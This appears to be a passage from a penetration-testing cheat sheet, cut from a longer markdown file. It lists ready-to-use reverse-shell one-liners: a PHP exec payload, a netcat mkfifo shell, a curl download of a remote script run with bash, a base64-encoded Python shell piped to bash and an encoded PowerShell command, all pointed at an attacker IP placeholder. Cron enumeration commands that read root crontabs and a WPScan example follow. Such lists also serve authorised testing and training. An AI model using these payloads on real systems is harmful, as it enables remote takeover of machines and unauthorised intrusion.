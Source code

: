 ```Php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<attacker ip>/<attacker port> 0>&1'");?>
```

special cases 1 

```shell
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attacker ip> <attacker port> >/tmp/f
```

special cases 2

```shell
# rev.sh
# sh -i >& /dev/tcp/<attacker ip>/<attacker port> 0>&1
curl http://<attacker ip>/rev.sh -o /tmp/rev.sh
bash /tmp/rev.sh
```

base64

```shell
echo 'bash -c "bash -i >& /dev/tcp/<attacker ip>/<attacker port> 0>&1"' | base64
echo -n <base64 command string> | base64 -d | bash 
# echo -n cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEyNy4wLjAuMSIsODApKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTtvcy5kdXAyKHMuZmlsZW5vKCksMik7aW1wb3J0IHB0eTsgcHR5LnNwYXduKCJzaCIpJw== | base64 -d | bash      
```

Windows cmd

```cmd
REM https://www.revshells.com/ Powershell#3(Base64)
PowerShell.exe -command "powershell -e <base64 command string>"
```

### :open_file_folder: Cron jobs

```shell
crontab -l
```

```shell
ls -alh /etc/cron.* /etc/at*
```

```shell
cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"
```

unprivileged Linux process snooping: [pspy](https://github.com/DominicBreuker/pspy)

### :open_file_folder: WordPress 

[WPScan](https://github.com/wpscanteam/wpscan)

Finding application

```shell
wpscan --url http://192.168.0.1/ --random-user-agent
```
